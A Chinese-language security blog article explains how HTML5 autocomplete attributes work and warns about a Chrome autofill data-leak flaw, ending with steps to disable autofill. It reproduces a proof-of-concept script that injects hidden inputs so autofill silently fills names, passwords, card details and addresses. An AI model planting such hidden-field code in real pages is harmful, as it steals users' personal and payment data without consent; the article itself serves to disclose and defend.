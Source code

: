 # AutoComplete

> [Chrome 中自动填充的危险性浅析](https://zhuanlan.zhihu.com/p/24864616)从属于笔者的[网络信息安全攻防实战](https://github.com/wxyyxc1992/InfoSecurity-In-Action)。笔者最早是在 Github 上看到了有关利用自动填充窃取数据的 POC ，本文是对于自动填充机制及其危险性的分析，参考了[Why Chrome’s autocomplete is insecure and how you can turn it off](https://medium.freecodecamp.com/why-your-browsers-autocomplete-is-insecure-and-you-should-turn-it-off-ebc73d7bcefd#.tkexn0mma)与[Autofill: What web devs should know, but don’t](https://cloudfour.com/thinks/autofill-what-web-devs-should-know-but-dont/)。更多参考[Web 应用安全基础](https://zhuanlan.zhihu.com/p/24864406)。

自动填充（Autofill ）是个非常重要的特性，它能帮助用户节省很多填写表单的时间，Google 也曾调查得出过结论[users complete forms up to 30% faster](https://developers.google.com/web/updates/2015/06/checkout-faster-with-autofill?hl=en)。我们首先来讨论下自动填充的工作原理，以及如何构建跨浏览器的自动填充表单。

## 自动填充的工作机制

早年各个浏览器之间对于自动填充并没有统一的标准，后来 HTML5 标准中加入了对于`autocomplete`属性的支持，以协调浏览器对于表单域的识别。最初`autocomplete`属性仅支持`on`与`off`两种取值，默认情况下是会启动自动填充功能以方便浏览器会将用户提交过的表单值记录下来以便复用。后续 HTML 标准中允许加入更多的[标识值](https://html.spec.whatwg.org/multipage/forms.html#autofill)，这些标识值会更加精确地告诉浏览器应将哪些记录值对应到哪些表单。譬如我们经常需要在网页上填写地址信息，如果我们希望浏览器能够记录下常用地址信息并且自动补全，那么可以使用如下声明方式：

```
<textarea name="shipping-address" autocomplete="shipping street-address"></textarea>
<input type="text" name="shipping-city" autocomplete="shipping address-level2">
<input type="text" name="shipping-state" autocomplete="shipping address-level1">
<input type="text" name="shipping-country" autocomplete="shipping country-name">
<input type="text" name="shipping-postal-code" autocomplete="shipping postal-code">
```

其他常见的自动填充的使用场景还包括电话号码、邮箱地址、即时通信账户等，完整的自动填充标识声明规范为：

```
[section-](optional) [shipping|billing](optional) [home|work|mobile|fax|pager](optional) [autofill field name]
```

其中`[home|work|mobile|fax|pager]`仅被用于电话、邮箱等场景。而完整的应用场景譬如是填写收货地址的收件人电话时：

```
<label for="foo">Mobile phone for delivery</label>
<input type="text" name="foo" id="foo" autocomplete="section-red shipping mobile tel">
```

最后，我们来看下自动填充在笔者电脑上的现实效果： ![](https://coding.net/u/hoteam/p/Cache/git/raw/master/2017/1/2/E2941AAA-E9DC-4A9A-AA10-8506044FBBB2.png)

## 安全威胁

自动填充是个非常方便地浏览器特性，不过该特性在 Chrome 上也会存在一定的信息泄露的风险。Chrome 最近才修复了某个久负盛名[漏洞](https://yoast.com/autocomplete-security/)。简单而言，黑客能够利用自动填充窃取你并不想提交给该网站的信息，就如下面这个动图：

![](https://coding.net/u/hoteam/p/Cache/git/raw/master/2017/1/2/1-WChv_tXK8rqUASVNxrqNSw.gif)

Github 用户 [haampie](https://gist.githubusercontent.com/haampie/3ba6ebb5fd9f71d2f8e9fb841e52740d/raw/d2278671539ab5987a184603b0b3dd9942ba66e0/inject.js) 使用如下脚本演示了该漏洞：

```
var autocompletes = ['name', 'honorific-prefix', 'given-name',
  'additional-name', 'family-name', 'honorific-suffix',
  'nickname', 'username', 'new-password',
  'current-password', 'organization-title', 'organization',
  'street-address', 'address-line1', 'address-line2',
  'address-line3', 'address-level4', 'address-level3',
  'address-level2', 'address-level1', 'country',
  'country-name', 'postal-code', 'cc-name', 'cc-given-name',
  'cc-additional-name', 'cc-family-name', 'cc-exp',
  'cc-exp-month', 'cc-exp-year', 'cc-csc', 'cc-type',
  'transaction-currency', 'transaction-amount',
  'language', 'bday', 'bday-day', 'bday-month',
  'bday-year', 'sex', 'url', 'photo', 'tel',
  'tel-country-code', 'tel-national',
  'tel-area-code', 'tel-local', 'tel-local-prefix',
  'tel-local-suffix', 'tel-extension', 'impp'
];

emailField.addEventListener('focus', function() {
  var wrap = autocompletes.reduce(function(wrapper, field) {
    var input = document.createElement('input');

    // Make them not focussable
    input.tabIndex = -1;
    input.autocomplete = field;

    wrapper.appendChild(input);
    return wrapper;
  }, document.createElement('div'));

  // Hide the wrapper
  wrap.classList.add('hidden');
  form.appendChild(wrap);

  // Inject the autocompletes once
  this.removeEventListener('focus', arguments.callee);
});
```

作者是建议大家关闭 Chrome 的自动填充功能，主要步骤为：

* 进入 Chrome 设置：`chrome://settings/autofill`
* 关闭当前模态窗口
* 反选自动填充选项

![](https://coding.net/u/hoteam/p/Cache/git/raw/master/2017/1/2/1-NKyNK5fQWXeLHLCOD_ZDaA.png)
